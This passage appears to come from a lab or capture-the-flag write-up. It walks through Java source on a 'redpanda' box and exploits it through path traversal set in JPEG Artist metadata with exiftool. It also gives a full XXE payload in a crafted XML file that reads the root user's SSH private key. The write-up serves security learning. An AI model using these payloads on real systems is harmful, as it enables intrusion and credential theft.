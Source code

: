 4. The meta data from found image will be checked, and the value of `Artist` will be returned to main, which will be used to create a path to a XML-file. Since we're pointing to our custom image, we can controll the metadata with `exiftool` and use path traversal again to our own XML-file. Example, `exiftool -Artist="../dev/shm/pwn" e.jpg`, creating the xmlPath `/credits/../dev/shm/pwn_creds.xml`.
```java
## getArtist
 Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
 for (Directory dir : metadata.getDirectories()) {
  for (Tag tag : dir.getTags()) {
    if (tag.getTagName() == "Artist")
 	 return tag.getDescription(); 

## MAIN
 System.out.println("Artist: " + artist);
 String xmlPath = "/credits/" + artist + "_creds.xml";
```

5. Lastly all our controlled data is sent to function `addViewTo`, `xmlPath` is set to `/credits/../dev/shm/pwn_creds.xml` and `uri` to `/../../../../../../dev/shm/e.jpg`. 
- The element `uri` (in the XML-file) is compared to variable `uri` to make sure they are the same. This means that we need to set `<uri>/../../../../../../dev/shm/e.jpg</uri>` in our XML, else this wont pass
- `totalviews` are calculated, meaning we need to have `<totalviews></totalviews>` in our XML
- `views` are calculcated, same as above, we need to have `<views></views>` in our XML
```java
## MAIN
addViewTo(xmlPath, parsed_data.get("uri").toString());

## addViewTo
File fd = new File(path);
    Document doc = saxBuilder.build(fd);
    Element rootElement = doc.getRootElement();
    for (Element el : rootElement.getChildren()) {
      if (el.getName() == "image")
        if (el.getChild("uri").getText().equals(uri)) {
          Integer totalviews = Integer.valueOf(Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1);
          System.out.println("Total views:" + Integer.toString(totalviews.intValue()));
          rootElement.getChild("totalviews").setText(Integer.toString(totalviews.intValue()));
          Integer views = Integer.valueOf(Integer.parseInt(el.getChild("views").getText()));
          el.getChild("views").setText(Integer.toString(views.intValue() + 1));
        }  
    } 
```

With all this in mind, we can download one of the xml-files at `/credits/` and use as a base. Remember that the file name here is important as it will work together with the image metadata.
```bash
➜  redpanda cat pwn_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../dev/shm/e.jpg</uri>
    <foo>&xxe;</foo>
  </image>
  <totalviews>0</totalviews>
</credits>
```
